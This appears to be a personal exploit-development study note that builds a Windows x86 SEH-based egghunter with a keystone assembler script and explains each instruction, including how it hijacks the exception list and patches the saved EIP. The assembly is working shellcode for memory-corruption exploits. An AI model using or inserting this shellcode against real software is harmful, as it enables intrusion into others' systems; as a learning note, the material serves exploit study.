 ```
from keystone import *

CODE = (
"	start: 									 "
		# jump to a negative call to dynamically 
		# obtain egghunter position
"		jmp get_seh_address 				;" 
"	build_exception_record: 				 "
		# pop the address of the exception_handler 
		# into ecx
"		pop ecx 							;" 
		# mov signature into eax
"		mov eax, 0x74303077 				;" 
		# push Handler of the 
		# _EXCEPTION_REGISTRATION_RECORD structure
"		push ecx 							;" 
		# push Next of the 
		# _EXCEPTION_REGISTRATION_RECORD structure
"		push 0xffffffff 					;" 
		# null out ebx
"		xor ebx, ebx 						;" 
		# overwrite ExceptionList in the TEB with a pointer
		# to our new _EXCEPTION_REGISTRATION_RECORD structure
"		mov dword ptr fs:[ebx], esp 		;" 
"	is_egg: 								 "
		# push 0x02
"		push 0x02 							;" 
		# pop the value into ecx which will act 
		# as a counter
"		pop ecx 							;" 
		# mov memory address into edi
"		mov edi, ebx 						;" 
		# check for our signature, if the page is invalid we 
		# trigger an exception and jump to our exception_handler function
"		repe scasd 							;" 
		# if we didn't find signature, increase ebx 
		# and repeat
"		jnz loop_inc_one 					;"  
		# we found our signature and will jump to it
"		jmp edi 							;" 
"	loop_inc_page: 							 " 
		# if page is invalid the exception_handler will 
		# update eip to point here and we move to next page
"		or bx, 0xfff 						;" 
"	loop_inc_one: 							 "
		# increase ebx by one byte
"		inc ebx 							;" 
		# check for signature again
"		jmp is_egg 							;" 
"	get_seh_address: 						 "
		# call to a higher address to avoid null bytes & push 
		# return to obtain egghunter position
"		call build_exception_record 		;" 
		# push 0x0c onto the stack
"		push 0x0c 							;" 
		# pop the value into ecx
"		pop ecx 							;" 
		# mov into eax the pointer to the CONTEXT 
		# structure for our exception
"		mov eax, [esp+ecx] 					;" 
		# mov 0xb8 into ecx which will act as an 
		# offset to the eip
"		mov cl, 0xb8						;" 
		# increase the value of eip by 0x06 in our CONTEXT 
		# so it points to the "or bx, 0xfff" instruction 
		# to increase the memory page
"		add dword ptr ds:[eax+ecx], 0x06	;" 
		# save return value into eax
"		pop eax 							;" 
		# increase esp to clean the stack for our call
"		add esp, 0x10 						;" 
		# push return value back into the stack
"		push eax 							;" 
		# null out eax to simulate 
		# ExceptionContinueExecution return
"		xor eax, eax 						;" 
		# return
"		ret 								;" 
)

# Initialize engine in X86-32bit mode
ks = Ks(KS_ARCH_X86, KS_MODE_32)
encoding, count = ks.asm(CODE)
print("Encoded %d instructions..." % count)

egghunter = ""
for dec in encoding: 
  egghunter += "\\x{0:02x}".format(int(dec)).rstrip("\n") 
print("egghunter = (\"" + egghunter + "\")")
```

1. jmp down to get_seh_address: first, this allows us store an address to the stack and avoid null bytes with our relative call to build_exception_record:.
2. In build_exception_record:, we immediately pop off the return address and create the ERR struct (`_EXCEPTION_REGISTRATION_RECORD`) on the stack by pushing the return address on as 'Handler' and pushing -1 (as 0xffffffff) as 'Next'. We also move our egg string into eax for scasd.
3. Overwrite the ExceptionList member in TEB by zero'ing ebx (XOR) then `mov dword ptr fs:[ebx], esp` which moves the created ERR struct into TEB location of our first error handler.
4. See [[Egghunter Example]] for is_egg:, loop_inc_page:, and loop_inc_one implementations. We use `repe scasd` to compact our repeated dword string compare, where ecx (set to 2 here) serves as a counter for repe. https://www.felixcloutier.com/x86/scas:scasb:scasw:scasd
5. The return address we pushed as 'Handler' leads us back to get_seh_address in the case of an exception (due to the invalid read address). This section should restore execution back to loop_inc_page: to continue searching.
	1. The OS invokes `_except_handler` on exception (see "`_except_handler` prototype" in [[Exploiting SEH Overflows]]). The relevant parameter is ContextRecord (at offsec 0x0C) which contains EIP at time of exception (at offset 0xb8 within ContextRecord). 
	2. `push 0x0c` (0C to get the 3rd pointer parameter) and `pop ecx` then `mov eax, [esp+ecx]`, all to get the dereferenced value in eax. 
	3. `mov cl, 0xb8` and `add dword ptr ds:[eax+ecx], 0x06`:  to offset b8 into ContextRecord where eip is stored, and then add 06 to the eip value to point it 3 instructions ahead to loop_inc_page: (from `repe scasd` where the exception was triggered)
	4. `pop eax` (with the return address), `add esp 0x10` pushes the stack past the 4 `except_handler` parameters, `push eax` restore the return address on the stack. Then finally return value of 0 to `_except_handler` with `xor eax, eax` signaling 'ExceptionContinueExecution'
